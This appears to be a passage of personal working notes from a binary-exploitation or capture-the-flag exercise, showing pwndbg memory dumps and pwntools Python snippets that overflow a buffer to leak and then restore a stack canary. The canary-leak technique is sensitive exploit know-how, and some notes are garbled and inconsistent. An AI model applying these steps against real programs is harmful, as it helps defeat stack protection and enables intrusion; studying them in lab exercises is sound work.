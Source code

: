 I think I do it like this I am just going to test now, my last 'A' would be at the null byte of the canary and I starts reading until next null byte i.e. 7 th byte at `0x7ffc0d435a50` i.e.  `0x7ffc0d435a56`

so there are 14 characters and I am discard the first one, last 6 and add a null terminator at the end 

python output:

414141414141414141414141414141414141414141414141**41**bb8093413280**4f** e0 d7 0c c5 fc 7f 0a 44 61 77 6e



pwndbg> x/32xb $rbp-0x20
0x7ffcc50cd7a0: 0x73    0x0a    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7a8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7b0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7b8: **0x41**    0xbb    0x80    0x93    0x41    0x32    0x80    0x4f


now the only problem is parsing it:


# yep we can now # 0xa6532fe089838341 now we can we the canary


correctly parsing the bytes we received and getting the canary 

```py
canary_bytes = output[24:32]
canary = u64(canary_bytes)
canary = canary & 0xffffffffffffff00  # Mask out the last byte
print(canary)
print(hex(canary))
```

Here we have it!
```
1763100710460685568
0x1877cac13e3f7d00
```

THe problem now is this:

```
pwndbg> x/32xb $rbp-0x20
0x7ffcc50cd7a0: 0x73    0x0a    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7a8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7b0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffcc50cd7b8: **0x41**    0xbb    0x80    0x93    0x41    0x32    0x80    0x4f
```
we changed the canary value early to get the canary, now we need to change it back 

with:

```py
p.recvuntil(b"hours remaining\n")
p.send(b'B' * 24 + b'\x00')
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
```
